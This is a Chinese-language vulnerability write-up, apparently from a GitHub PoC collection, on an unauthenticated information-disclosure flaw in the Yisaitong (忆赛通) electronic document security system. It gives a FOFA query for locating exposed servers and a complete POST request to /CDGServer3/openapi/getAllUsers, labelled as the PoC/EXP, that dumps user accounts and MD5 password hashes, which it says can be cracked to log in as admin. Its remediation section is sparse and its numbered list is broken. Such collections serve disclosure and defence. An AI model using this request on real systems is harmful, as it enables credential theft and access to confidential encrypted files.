




# 忆赛通电子文档安全管理系统 getAllUsers 信息泄露漏洞

# 漏洞描述

忆赛通电子文档安全管理系统 /CDGServer3/openapi/getAllUsers 接口处存在信息泄露漏洞，未经身份验证的远程攻击者可利用此漏洞获取后台账号密码等敏感信息，进一步MD5解密即可登录后台，泄露重要加密文件！

影响版本

忆赛通电子文档安全管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 严重 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/CDGServer3/index.jsp"

POC/EXP：

POST /CDGServer3/openapi/getAllUsers HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: application/x-www-form-urlencoded

pageSize=10000&pageNumber=1

资产数量大。泄露机密加密文件，请及时排查通告。

# 修复方案

1. 设置安全组仅对可信地址开放

   升级至安全版本
   
1.

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
